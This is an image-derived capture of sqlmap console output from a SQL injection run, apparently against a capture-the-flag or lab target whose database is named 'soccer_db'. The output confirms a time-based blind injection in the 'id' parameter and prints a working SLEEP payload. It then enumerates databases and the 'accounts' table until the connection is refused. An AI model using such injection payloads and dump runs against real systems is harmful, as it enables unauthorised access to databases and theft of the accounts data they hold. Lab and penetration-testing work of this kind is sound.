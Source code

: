     [17:15:38] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
    [17:15:40] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
    [17:15:41] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
    [17:15:43] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [17:15:54] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    [17:16:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [17:16:23] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [17:16:31] [INFO] target URL appears to be UNION injectable with 3 columns
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
    [17:17:04] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
    [17:17:04] [INFO] checking if the injection point on GET parameter 'id' is a false positive
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=86969 AND (SELECT 1649 FROM (SELECT(SLEEP(5)))Pibi)
    ---
    [17:17:37] [INFO] the back-end DBMS is MySQL
    [17:17:37] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
    back-end DBMS: MySQL >= 5.0.12
    [17:17:38] [INFO] sqlmap will dump entries of all tables from all databases now
    [17:17:38] [INFO] fetching database names
    [17:17:38] [INFO] fetching number of databases
    [17:17:38] [INFO] retrieved: 
    do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
    5
    [17:18:02] [INFO] retrieved: 
    [17:18:07] [INFO] adjusting time delay to 2 seconds due to good response times
    mysql
    [17:18:51] [INFO] retrieved: information_schema
    [17:21:32] [INFO] retrieved: p
    [17:21:56] [ERROR] invalid character detected. retrying..
    [17:21:56] [WARNING] increasing time delay to 3 seconds
    erformance_schema
    [17:25:08] [INFO] retrieved: sys
    [17:25:46] [INFO] retrieved: soccer_db
    [17:27:38] [INFO] fetching tables for databases: 'information_schema, mysql, performance_schema, soccer_db, sys'
    [17:27:38] [INFO] fetching number of tables for database 'soccer_db'
    [17:27:38] [INFO] retrieved: 1
    [17:27:43] [INFO] retrieved: accounts
    [17:29:18] [INFO] fetching number of tables for database 'sys'
    [17:29:18] [INFO] retrieved: 1
    [17:29:28] [ERROR] invalid character detected. retrying..
    [17:29:28] [WARNING] increasing time delay to 4 seconds
    01
    [17:29:44] [INFO] retrieved: h
    [17:30:49] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    [17:30:49] [CRITICAL] unable to connect to the target URL ('Connection refused')
    